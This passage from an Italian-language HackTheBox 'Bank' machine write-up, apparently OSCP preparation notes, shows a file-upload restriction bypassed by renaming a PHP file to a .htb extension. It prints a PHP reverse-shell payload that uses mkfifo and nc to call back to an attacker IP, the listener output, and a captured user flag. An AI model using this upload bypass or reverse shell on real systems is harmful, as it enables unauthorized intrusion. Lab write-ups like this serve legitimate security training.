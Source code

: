 Nella sezione support abbiamo la possibilità di caricare dei file, visto che la web app è in php ho provato a ad inserire un file .php per testare se avevamo un RCE  ma ci dice che possiamo caricare solo immagini.

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Bank8.png)

modificando il nome nel file .php in .jpg riusciamo a caricarlo come da immagine

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Bank9.png)

ma richiamando la pagina abbiamo questo tipo di risposta
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Bank10.png)
l'estensione è corretta ma ci da comunque un errore.
Tornando alla pagina support e ispezionando il codice sorgente troviamo questa riga 

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Bank11.png)

Questo riga ci dice ha bisogna mettere l'estensione .htb per permettere di eseguire il file caricato.

Proviamo...
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/bank12.png)Ci siamo, abbiamo la nostra RCE non ci resta che caricare una revshell per ottenere un punto 'ingresso.

Qui abbiamo la nostra revshell.php (rinominata in .htb per bypassare le restrizioni)
```bash
┌──(root㉿kali)-[/home/kali/htb/bank]
└─# cat revers.htb
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9443 >/tmp/f"); ?>
```

ci mettiamo in ascolto con nc

```bash
┌──(root㉿kali)-[/home/kali/htb/bank]
└─# nc -lnvp 9443
listening on [any] 9443 ...
```

Carichiamo la revshell  nella pagina `/support.php` ed eseguiamo per ottenere la nostra shell

```bash
┌──(root㉿kali)-[/home/kali/htb/bank]
└─# nc -lnvp 9443
listening on [any] 9443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.29] 59196
/bin/sh: 0: can't access tty; job control turned off
$

```


E qui abbiamo la nostra flag
```bash
www-data@bank:/home/chris$ cat user.txt
45a4453f93f78fb2460ba5903105e345
www-data@bank:/home/chris$
```
